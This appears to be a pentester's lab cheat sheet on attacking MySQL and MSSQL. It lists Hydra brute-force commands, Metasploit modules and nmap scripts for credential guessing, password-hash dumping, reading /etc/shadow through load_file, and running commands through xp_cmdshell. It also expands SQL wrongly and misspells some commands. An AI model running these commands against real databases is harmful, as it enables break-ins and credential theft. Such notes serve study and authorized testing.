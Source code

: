 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)

---
# Overview 

SQL - Simple Query Language

Relational database that is used by a lot of websites to store data.

---
## Ports
- 3306 : mysql
- 1433 : MSSQL

## Usage
`mysql -h 192.168.34.3 -u root`
- `show database;` : shows databases
- `use books;` : go in to database
- `select count * from authors;` : show authors
- `help;` : help menu
- `select load_file("/etc/shadow");` : can see dir access by user from msfconsole mysql_writable_dirs

## Related Services
- MySql : database
- PostgreSql : database
- MariaDB : database
- MSSql : Microsoft SQL

---
# Tools

## Hydra
dictionary attack
```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt 192.168.45.3 mysql
```

## msfconsole
### MSQL
- use auxiliary/scanner/mysql/mysql_writable_dirs
	- set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
	- setg rhosts 192.168.34.2
		- setg : set globaly
	- set verbose false
	- advanced : advanced options
	- set password "" : null password
	- run
- use auxiliary/scanner/mysql/mysql_hashdump
	- set username root
	- set password "" : doesn't show in options
	- run
	- gives user hashes
- use auxiliary/scanner/mysql/mysql_login
	- set rhost addr
	- set pass_file /usr/share/metasploit-framework/data/wordlists/unix_password.txt
	- set stop_on_success true
	- set username root
	- run
### MSSQL
- use auxiliary/scanner/mssql/mssql_login
	- setg rhosts addr
	- set user_file /root/desktop/wordlists/common_users.txt
	- set pass_file /root/dektop/wordlists/100-common-passwords.txt
	- run
- use auxiliary/admin/mssql/mssql_enum
	- run
- use auxiliary/admin/mssql/mssql_enum_sql_logins
- use auxiliary/admin/mssql/mssql_enum_exec
	- set cmd whoami
	- set username sa ???
- use auxiliary/admin/mssql/mssql_enum_domain_accounts
	- run

---
## nmap
### MSQL
- --script
	- mysql-empty-password
		- show users with no pass
	- mysql-info
		- shows capabilities and other info
	- mysql-users
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-databases
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-variables
		- --script-args="mysqluser='root',mysqlpass=''"
		- look for **datadir:** locations
	- mysql-audit
		- --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='usr/share/nmap/nselib/data/mysql-cis.audit"
	- mysqldump-hashes
		- --script-args="username='root',password=''"
	- mysql-query
		- --script-args="query='select count(\*) from books',username='root',password=''"
### MSSQL
- --script
	- ms-sql-info
		- information
	- ms-sql-ntlm-info
		- `--script-args instance-port=1433`
		- version info
	- ms-sql-brute 
		- ` --script-args userdb=/usr/wordlists/common_users.txt,passdb=/usr/wordlists/100-common-passwords.txt`
	- ms-sql-empty-password
	- ms-query
		- `-script-args mssql.username-admin,mssql.password=anamaria,ms-sql.query.query='SELECT * FROM master..syslogins' -oN output.txt`
	- ms-sql-dump-hashes 
		- `--script-args mssql.username=admin,mssql.password=anamaria`
	- ms-sql-xp-cmdshell 
		- `--script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"`
			- `ms-sql-xp-cmshell.cm="type c:\flag.txt"`
				- type is windows version of cat
	- 
